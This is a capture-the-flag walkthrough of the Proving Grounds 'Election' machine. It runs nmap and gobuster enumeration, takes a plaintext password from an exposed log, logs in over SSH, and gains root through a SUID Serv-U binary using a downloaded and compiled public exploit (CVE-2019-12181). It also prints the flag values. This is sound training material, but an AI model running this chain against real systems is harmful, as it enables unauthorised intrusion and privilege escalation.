# Proving Grounds Play — Election | Full Walkthrough

> **Machine:** Election
> **Difficulty:** Easy (Linux)
> **Author:** vodanhtieutot
> **Platform:** Offensive Security — Proving Grounds Play

---

## Table of Contents

1. [Overview](#1-overview)
2. [Reconnaissance — Nmap Scan](#2-reconnaissance--nmap-scan)
3. [Web Enumeration — Gobuster (Root)](#3-web-enumeration--gobuster-root)
4. [Web Application Analysis — /election](#4-web-application-analysis--election)
5. [Deep Enumeration — /election/admin](#5-deep-enumeration--electionadmin)
6. [Credential Discovery — system.log](#6-credential-discovery--systemlog)
7. [Initial Access — SSH as love](#7-initial-access--ssh-as-love)
8. [Privilege Escalation — SUID Serv-U (CVE-2019-12181)](#8-privilege-escalation--suid-serv-u-cve-2019-12181)
9. [Flag Capture](#9-flag-capture)
10. [Flags & Answers Summary](#10-flags--answers-summary)
11. [Attack Chain Summary](#11-attack-chain-summary)
12. [Tools Used](#12-tools-used)

---

## 1. Overview

**Election** is an Easy-rated Linux machine on Proving Grounds Play running an open-source web-based election management system (eLection by Tripath Projects). The attack path combines web directory brute-forcing with log file analysis to recover plaintext credentials, followed by privilege escalation via a SUID-bit misconfiguration on the **Serv-U FTP server binary** (CVE-2019-12181).

```
Recon → Gobuster → /election/admin/logs/system.log → Credentials in plaintext
→ SSH as love → SUID find → /usr/local/Serv-U/Serv-U (CVE-2019-12181)
→ wget exploit → gcc compile → ./servu-exploit → root shell
```

**Lab Environment:**

| Detail | Value |
|---|---|
| Target IP | `192.168.235.211` |
| Machine Name | `election` |
| OS | Ubuntu 18.04.4 LTS (Linux 5.4.0-120-generic x86_64) |
| Open Ports | 22 (SSH), 80 (HTTP) |
| Attacker | Kali Linux (vodanhtieutot) |

---

## 2. Reconnaissance — Nmap Scan

### 2.1 Quick Port Scan

Full port scan with `-Pn` to skip ping and `--min-rate 5000` for speed:

```bash
nmap -Pn -p- --min-rate 5000 192.168.235.211
```



Two ports open:

| Port | State | Service |
|---|---|---|
| 22/tcp | open | ssh |
| 80/tcp | open | http |

### 2.2 Service & Script Scan

Aggressive scan on the two discovered ports:

```bash
nmap -sC -sV -A -Pn -p 22,80 192.168.235.211
```



Key findings:

| Detail | Value |
|---|---|
| Port 22 | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 |
| Port 80 | Apache httpd 2.4.29 (Ubuntu) |
| HTTP Title | `Apache2 Ubuntu Default Page: It works` |
| HTTP Server Header | `Apache/2.4.29 (Ubuntu)` |
| OS | Linux 4.x / 5.x |

> **Note:** The default Apache page on port 80 means the actual web application is hidden in a subdirectory. We need to brute-force directories to find it.

---

## 3. Web Enumeration — Gobuster (Root)

### 3.1 Root Directory Scan

```bash
gobuster dir -u http://192.168.235.211 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -t 70
```



Key results:

| Path | Status | Notes |
|---|---|---|
| `/javascript` | 301 | JS library directory |
| `/election` | **301** | **Main application — primary target** |
| `/phpmyadmin` | **301** | Database management panel |
| `/server-status` | 403 | Forbidden |

> Two high-value targets: `/election` (the main web app) and `/phpmyadmin` (database panel, potential login target if we find credentials). Start with `/election`.

---

## 4. Web Application Analysis — /election

### 4.1 Browsing the Election Site

Navigate to `http://192.168.235.211/election/`:



The site is an **eLection Web Based Election System** by Tripath Projects. The main page shows:
- A candidate card displaying **ID: 1, Name: admin1**
- A "Vote Now!" section with a Voter's Code input field
- Navigation: Home, Candidate, Vote Now!

> 💡 The username `admin1` is visible publicly on the candidate listing page — a potential username for the admin login panel.

### 4.2 Enumerating /election Subdirectories

Run Gobuster inside the `/election` directory to map the full application structure:

```bash
gobuster dir -u http://192.168.235.211/election \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -t 70
```



Full structure revealed:

| Path | Status | Notes |
|---|---|---|
| `/election/media` | 301 | Media files |
| `/election/themes` | 301 | Theme files |
| `/election/data` | 301 | Application data |
| `/election/admin` | **301** | **Admin panel — high value** |
| `/election/lib` | 301 | Library files |
| `/election/languages` | 301 | Language files |
| `/election/js` | 301 | JavaScript files |

> `/election/admin` is the most interesting. Let's access it and enumerate further.

---

## 5. Deep Enumeration — /election/admin

### 5.1 Admin Login Panel

Navigate to `http://192.168.235.211/election/admin/`:



The admin panel shows an **eLection Administration** login form asking for an "Admin's ID" — a single-factor ID-based authentication step before the password.

> **Vulnerability Observation:** The login flow asks for an Admin ID first (before the password), which may be susceptible to user enumeration. However, rather than brute-forcing, we continue enumerating the `/election/admin` directory for exposed files.

### 5.2 Enumerating /election/admin

Run Gobuster against the admin subdirectory:

```bash
gobuster dir -u http://192.168.235.211/election/admin \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -t 70
```



The scan reveals a **`/logs`** subdirectory — this is a critical finding. Log files left in publicly accessible web directories often contain sensitive information.

| Path | Status | Notes |
|---|---|---|
| `/election/admin/plugins` | 301 | Plugin assets |
| `/election/admin/css` | 301 | Stylesheets |
| `/election/admin/ajax` | 301 | AJAX handlers |
| `/election/admin/js` | 301 | JavaScript |
| `/election/admin/components` | 301 | Components |
| `/election/admin/img` | 301 | Images |
| `/election/admin/inc` | 301 | Include files |
| `/election/admin/logs` | **301** | **Log files — critical** |

### 5.3 Accessing the Logs Directory

Navigate to `http://192.168.235.211/election/admin/logs/`:



Directory listing is enabled and reveals a single file: **`system.log`** (205 bytes, dated 2020-05-27).

---

## 6. Credential Discovery — system.log

Navigate to `http://192.168.235.211/election/admin/logs/system.log`:



```
[2020-01-01 00:00:00] Assigned Password for the user love: P@$$w0rd@123
[2020-04-03 00:13:53] Love added candidate 'Love'.
[2020-04-08 19:26:34] Love has been logged in from Unknown IP on Firefox (Linux).
```

> 🎯 **Critical finding — credentials leaked in plaintext log file:**
> - **Username:** `love`
> - **Password:** `P@$$w0rd@123`
>
> The log records the moment a password was assigned to the user account. This is a severe OPSEC failure — application logs should never store plaintext passwords.

---

## 7. Initial Access — SSH as love

### 7.1 SSH Login

Use the credentials from `system.log` to log in via SSH:

```bash
ssh love@192.168.235.211
```

> **Note:** First connection attempt showed "Permission denied" — this was due to entering the password incorrectly. On the second attempt with the exact password `P@$$w0rd@123`, login succeeded.



```
love@192.168.235.211's password: P@$$w0rd@123
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 5.4.0-120-generic x86_64)
love@election:~$
```

SSH session established as user **love**.

### 7.2 User Flag — local.txt

```bash
love@election:~$ dir
Desktop  Documents  Downloads  local.txt  Music  Pictures  Public  Templates  Videos
love@election:~$ cat local.txt
6d3d8c664e1e06abd1970d51792360fb
```

> 🚩 **local.txt (User Flag):** `6d3d8c664e1e06abd1970d51792360fb`

---

## 8. Privilege Escalation — SUID Serv-U (CVE-2019-12181)

### 8.1 Enumerating SUID Binaries

A standard privilege escalation enumeration step is to search for binaries with the SUID bit set — these run with the owner's privileges (often root) regardless of who executes them:

```bash
love@election:~$ find / -perm -4000 -type f 2>/dev/null
```



Most entries are expected standard Linux SUID binaries (`passwd`, `sudo`, `newgrp`, etc.), but one stands out:

```
/usr/local/Serv-U/Serv-U
```

> 🎯 **Anomalous SUID binary:** `/usr/local/Serv-U/Serv-U` is a **SolarWinds Serv-U FTP Server** binary — not a standard Linux binary. The presence of this SUID binary is highly suspicious and warrants investigation.

### 8.2 Identifying the Vulnerability — CVE-2019-12181

**Serv-U FTP Server** versions before **15.1.7** are vulnerable to a local privilege escalation exploit (CVE-2019-12181). The binary accepts a specially crafted argument that causes it to execute commands as root, because it runs with SUID privileges.

The exploit is available on Exploit-DB as **EDB-47009**.

### 8.3 Downloading and Compiling the Exploit

Navigate to `/tmp` (a writable directory) and download the exploit source:

```bash
love@election:~$ cd /tmp
love@election:/tmp$ wget https://www.exploit-db.com/download/47009 -O servu-exploit.c
love@election:/tmp$ gcc servu-exploit.c -o servu-exploit
```



```
--2026-03-28 22:02:13-- https://www.exploit-db.com/download/47009
Length: 619 [application/txt]
Saving to: 'servu-exploit.c'
servu-exploit.c  100%[===========>]  619  --.-KB/s  in 0s
2026-03-28 22:02:14 (127 MB/s) - 'servu-exploit.c' saved [619/619]

love@election:/tmp$ gcc servu-exploit.c -o servu-exploit
```

The exploit source is only **619 bytes** — a compact local privilege escalation PoC that abuses the SUID Serv-U binary to spawn a root shell.

### 8.4 Executing the Exploit → Root Shell

```bash
love@election:/tmp$ ./servu-exploit
```



```
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare),1000(love)
opening root shell
#
```

> 🎯 **Privilege Escalation successful!** The exploit confirmed UID 0 (root) and opened a root shell `#`.

**How CVE-2019-12181 works:**
- Serv-U FTP Server has a SUID binary installed at `/usr/local/Serv-U/Serv-U`
- The binary accepts a `-prepareinstallation` flag that invokes a `system()` call with a shell command
- Because the binary runs as root (SUID), the `system()` call executes as root
- The exploit passes a crafted argument that causes the binary to `exec` a bash shell, inheriting the root EUID

---

## 9. Flag Capture

### 9.1 Root Flag — proof.txt

With the root shell, navigate to `/root` to find the flags:

```bash
# cd /home
# dir
love
# cd /root
# dir
Desktop  Documents  Downloads  Music  Pictures  proof.txt  Public  Templates  Videos
# cat proof.txt
c32534fec6cf381ae93abe891e730373
```


> 🚩 **proof.txt (Root Flag):** `c32534fec6cf381ae93abe891e730373`

---

## 10. Flags & Answers Summary

| Flag | Location | Value |
|---|---|---|
| User Flag | `/home/love/local.txt` | `6d3d8c664e1e06abd1970d51792360fb` |
| Root Flag | `/root/proof.txt` | `c32534fec6cf381ae93abe891e730373` |

---

## 11. Attack Chain Summary

```
[1] Nmap -Pn -p- --min-rate 5000
        → Port 22 (OpenSSH 7.6p1), Port 80 (Apache 2.4.29 Ubuntu)

[2] Nmap -sC -sV -A
        → Ubuntu 18.04.4 LTS, Apache/2.4.29, default page at /

[3] Gobuster dir / (medium wordlist, 70 threads)
        → /election (301), /phpmyadmin (301)

[4] Browse /election
        → eLection Web Based Election System (Tripath Projects)
        → Candidate ID: 1, Name: admin1 (username leak)

[5] Gobuster dir /election (medium wordlist)
        → /election/admin (301) — admin panel discovered

[6] Browse /election/admin
        → eLection Administration Login — Admin ID input

[7] Gobuster dir /election/admin (medium wordlist)
        → /election/admin/logs (301) — log directory exposed

[8] Browse /election/admin/logs/
        → Directory listing enabled
        → system.log (205 bytes)

[9] Read system.log
        → [2020-01-01] Assigned Password for the user love: P@$$w0rd@123
        → Credentials: love : P@$$w0rd@123

[10] ssh love@192.168.235.211 (password: P@$$w0rd@123)
        → User shell as love on Ubuntu 18.04.4 LTS
        → cat local.txt → user flag ✓

[11] find / -perm -4000 -type f 2>/dev/null
        → Anomalous: /usr/local/Serv-U/Serv-U (SUID)
        → Identified as SolarWinds Serv-U FTP Server < 15.1.7
        → CVE-2019-12181 / EDB-47009

[12] cd /tmp
        → wget https://exploit-db.com/download/47009 -O servu-exploit.c
        → gcc servu-exploit.c -o servu-exploit
        → ./servu-exploit

[13] uid=0(root) → root shell ✓
        → cat /root/proof.txt → root flag ✓
```

---

## 12. Tools Used

| Tool | Purpose |
|---|---|
| `nmap` | Port scanning & service fingerprinting |
| `gobuster` | Web directory brute-forcing (3 passes: root, /election, /election/admin) |
| Firefox | Manual web application browsing |
| `ssh` | Remote login with credentials from log file |
| `find` | SUID binary enumeration (`-perm -4000`) |
| `wget` | Downloading exploit source from Exploit-DB |
| `gcc` | Compiling the C exploit source |
| EDB-47009 (CVE-2019-12181) | Local privilege escalation via SUID Serv-U binary |
